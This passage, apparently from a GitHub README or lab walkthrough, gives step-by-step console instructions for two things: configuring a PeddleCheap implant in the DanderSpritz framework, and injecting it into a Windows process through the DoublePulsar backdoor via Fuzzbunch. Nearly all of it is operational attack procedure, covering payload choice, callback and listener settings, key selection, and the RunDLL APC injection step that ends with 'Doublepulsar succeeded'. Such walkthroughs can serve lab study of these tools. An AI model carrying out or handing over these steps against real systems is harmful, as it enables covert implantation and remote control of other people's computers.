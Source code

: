 1. In the DanderSpritz console, run the following command:
    `pc_prep`
2. Select the standard x64-winnt level 3 sharedlib payload
    `5`
3. Do **not** select advanced settings
4. Choose to perform an immediate callback
5. Use the default PC ID (0)
6. Select **"Yes"** to "Do you want to listen?"
7. Do **not** change listen ports
8. Leave the default "callback" address (127.0.0.1)
9. Do not change the exe name 
10. Use the default key (option 2)
11. Validate that the PeddleCheap configuration is valid
12. Do **not** configure with FC (_felonycrowbar_)
13. Copy the location of the configured binary:
![PeddleCheap Binary](pc_config.png "PeddleCheap Binary")

### Deliver the implant (peddlecheap) via DoublePulsar backdoor:

1. In the original Fuzzbunch Window type:
    `use doublepulsar`
2. Choose "yes" when asked if you want to be prompted for variable settings
3. Select all default variable settings **except** the target architecture (choose option 1)
    `1) x64   x64 64-bits`
4. Select the "RunDLL" function (option 2)
    `2) RunDLL Use an APC to inject a DLL into a user mode process.`
![DoublePulsar Config](Doublepulsar_config.png "DoublePulsar Configuration")
5. Leave all other options default and select "Yes" when asked if you want to execute the plugin
6. You should see "Doublepulsar succeeded"
